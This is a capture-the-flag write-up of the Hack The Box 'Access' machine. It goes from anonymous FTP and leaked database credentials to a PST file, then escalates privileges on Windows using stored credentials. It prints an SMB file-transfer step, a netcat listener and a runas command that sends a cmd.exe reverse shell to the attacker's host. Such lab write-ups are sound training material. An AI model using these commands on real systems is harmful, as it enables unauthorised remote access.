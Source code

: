```yaml
---
layout: post
title: Hack The Box, Access
tags: [Hack The Box, Windows, Impacket, Readpst]
---
```

![accesslogo](/boxes/htb/access/accessLogo.PNG)

### i. Port Scan
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
```
### ii. Enumeration
There are three services that are available to enumerate. To start off, we take a look at the http/website on port 80.  
![website](/boxes/htb/access/website.PNG)   
After enumerating this service nothing was found. Next up is port 23 telnet. 

Connecting to telnet gives us a prompt for credentials. Trying a few common credentials didn't work. We will put this on the backburner for now.

Let's take a look at port 21 the FTP service. Nmap indicated anonymous FTP login was allowed and we were able to login and enumerate the FTP server.  
![ftpdirectories](/boxes/htb/access/ftpdir.PNG)    

A file backup.mdb was found in the Backups directory and we download a copy of it.  
![backupfile](/boxes/htb/access/backups.PNG)  

In the Engineer folder there is a file called Access Control.zip and we also transfer it to our machine.  
![accesscontrolfile](/boxes/htb/access/engineer.PNG)  
Trying to unzip the Access Control.zip file we run into password protection. We'll add this to the backburner list and look at the backup.mdb file. The backup.mdb file is a Microsoft Access Database. We transfer it to a Windows virtual machine and open it up.

Within the auth_user table credentials were found:

| username     | password          |
|--------------|-------------------|
| admin        | admin             |
| engineer     | access4u@security |
| backup_admin | admin             |

Trying the credentials via telnet did not work. Using the password `access4u@security` on the Access Control.zip file resulted in successfully extracting a file called Access Control.pst. Running the `file` command tells us this is a Microsoft Outlook PST.

Using the following command convert the pst to a mbox file and read its contents:
```
readpst Access\ Control.pst
cat Access\ Control.mbox
```
Within the mbox file we find an email with another set of credentials:  
![emailcreds](/boxes/htb/access/email.PNG)  
The credentials in the email gave us access to the machine via telnet and the user flag was found.  
![userflag](/boxes/htb/access/user.PNG)
### iii. Privilege Escalation
When performing Windows enumeration one of the things to check for is saved credentials. Running the following command lists any stored credentials:
```
cmdkey /list
```
![storedcreds](/boxes/htb/access/creds.PNG)  
Since stored credentials are available, there are a few options to obtain the root flag. The route we will take is sending ourselves an administrative shell. Within the Kali Linux distribution, you can find precompiled Windows binaries under the following directory:
 ```
 /usr/share/windows-binaries
 ```
 Using impacket's smbserver.py create an SMB share on the attack machine and transfer over a netcat binary.
 ```
 python smbserver.py sharename /share
 
 Copying files onto the victim machine:
 copy \\<ip address>\sharename\nc.exe .
 ```
Next set up a listener on the attack machine to prepare for the incoming shell:
```
nc -nlvp 443
```
Once the listener is setup, send a shell with the following command:
```
runas /user:access\administrator /savecred "cmd /c c:\users\security\nc.exe -nv <ip address> 443 -e c:\windows\system32\cmd.exe
```
The shell is received and is running as an administrative user! You can now capture the root flag!
![rootshell](/boxes/htb/access/rootshell.PNG)




